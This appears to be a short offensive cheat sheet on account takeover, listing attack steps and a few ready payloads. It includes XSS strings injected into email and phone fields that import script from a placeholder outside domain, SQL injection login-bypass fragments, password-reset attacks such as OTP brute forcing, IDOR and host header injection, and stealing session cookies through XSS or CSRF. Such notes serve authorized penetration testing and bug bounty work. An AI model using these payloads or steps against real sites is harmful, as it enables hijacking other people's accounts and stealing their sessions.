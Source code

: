 # Account Takeover

## Email Reset
```
Send reset request of your on Account 
save/intercept the reques
Change mail to victim

```
## SQLI or XSS in forms
```
XSS
Email: "><img/src/onerror=import('//domain/')>"@domain.com
Mobile: 013371337;ext=<img/src/onerror=import('//domain/')>
------
SQLI
login forms no quote user and pass
/1#\
/1#\
```
## Password Reset
```
Check One time Password length--> bruteforce
IDOR in /reset endpoint
Token or One Time Password Leak in response
Host Header Injection in /reset endpoint 
Flawed Token or One Time Password validation
	-use your own reset token for target account
Parameter Pollution
```

## XSS or CSRF to Account Takeover
```
Get session Cookies or Tokens via XSS
CSRF for change email/passord/details
```
